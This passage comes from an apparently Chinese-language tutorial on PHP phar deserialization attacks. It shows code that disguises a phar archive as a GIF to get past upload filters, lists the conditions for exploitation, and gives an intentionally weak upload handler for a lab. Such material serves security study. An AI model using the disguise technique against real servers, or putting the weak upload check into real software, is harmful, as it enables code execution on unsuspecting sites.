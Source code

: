[![gl7O3R.png](https://z3.ax1x.com/2021/05/06/gl7O3R.png)](https://imgtu.com/i/gl7O3R)

当文件系统函数的参数可控时，我们可以在不调用unserialize()的情况下进行反序列化操作，一些之前看起来"人畜无害"的函数也可能变得"暗藏杀机"，极大的扩展了攻击面。

#### 将phar伪造成其他格式的文件

在前面分析phar文件结构时可能会注意到，php识别phar文件是通过其文件头的stub，更确切的说是``__HALT_COMPILER();?>``这段代码，对前面的内容或后缀名是没有要求的。那么我们就可以通过添加任意文件头+修改后缀名的方式将phar文件伪装成其他格式的文件。

```
<?php
	class TestObject {
	}
	
	$phar = new Phar('phar.phar');
	$phar->startBuffering();
	$phar->setStub('GIF89a'.'<?php __HALT_COMPILER()?>');  //设置stub，添加GIF文件头
	$phar->addFromString('test.txt', 'test');  //添加要压缩的文件
	$object = new TestObject();
	$object -> data = 'alalal';
	$phar->setMetadata($object);  //将自定义meta-data存入manifest
	$phar->stopBuffering();
?>
```

采用这种方法可以绕过很大一部分上传检测。

#### 利用条件

##### 1.phar文件要能够上传到服务器端

如：``file_exists()``, ``fopen()``, ``file_get_contents()``, ``file()``等文件操作的函数。

##### 2.要有可用的魔术方法作为"跳板"

##### 3.文件操作函数的参数可控，且``:``、``/``、``phar``等特殊字符没有被过滤

#### 漏洞验证

##### 环境准备

> upload_file.php：后端检测文件上传，文件类型是否为``gif``，文件后缀名是否为``gif``。
>
> upload_file.html：文件上传表单。
>
> file_un.php：存在``file_exists()``，并且存在``__destruct()``。

##### 文件内容

upload_file.php:

```
<?php
    if(($_FILES["file"]["type"]=="image/gif")&&(substr($_FILES["file"]["name"], strrpos($_FILES["file"]["name"], '.')+1))=='gif') {
        echo "Upload: " . $_FILES["file"]["name"];
        echo "Type: " . $_FILES["file"]["type"];
        echo "Temp file: " . $_FILES["file"]["tmp_name"];

        if(file_exists("upload_file/" . $_FILES["file"]["name"])) {
            echo $_FILES["file"]["name"] . "already exists.";
        } else {
            move_uploaded_file($_FILES["file"]["tmp_name"], "upload_file/." . $_FILES["file"]["name"]);
            echo "Stored in: " . "upload_file/" . $_FILES["file"]["name"];
        }
    } else {
        echo "Invalid file, you can only upload gif";
    }
```